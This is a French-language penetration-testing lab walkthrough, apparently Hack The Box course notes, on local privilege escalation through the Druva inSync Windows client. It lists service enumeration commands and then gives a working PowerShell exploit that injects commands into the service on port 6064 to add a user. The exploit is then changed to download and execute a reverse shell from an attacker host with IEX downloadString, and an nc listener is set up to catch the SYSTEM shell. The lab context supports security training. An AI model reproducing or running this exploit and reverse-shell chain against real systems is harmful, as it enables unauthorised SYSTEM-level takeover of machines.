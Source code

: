 # Vulnerable Installed Services

***

### <mark style="color:red;">Énumération des programmes installés</mark>

```
C:\htb> wmic product get name
```

### <mark style="color:red;">Énumération des ports locaux</mark>

```
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

### <mark style="color:red;">Énumération de l'ID de processus</mark>

```
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

### <mark style="color:red;">Énumération du service en cours d'exécution</mark>

```
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}
```

### <mark style="color:red;">Exemple d'élévation de privilèges locale du client Windows Druva inSync</mark>

#### <mark style="color:green;">Preuve de concept PowerShell pour Druva inSync</mark>

Avec ces informations en main, essayons la preuve de concept d'exploit, qui est ce court extrait PowerShell.

{% code fullWidth="true" %}
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
{% endcode %}

#### <mark style="color:green;">Modification de la preuve de concept PowerShell</mark>

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modifiez la variable $cmd dans le script de preuve de concept d'exploit Druva inSync pour télécharger notre shell PowerShell inversé en mémoire.

{% code overflow="wrap" fullWidth="true" %}
```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```
{% endcode %}

#### <mark style="color:green;">Démarrage d'un serveur web Python</mark>

```
mrroboteLiot_1@htb[/htb]$ python3 -m http.server 8080
```

#### <mark style="color:green;">Capture d'un shell SYSTEM</mark>

```
mrroboteLiot_1@htb[/htb]$ nc -lvnp 9443
```
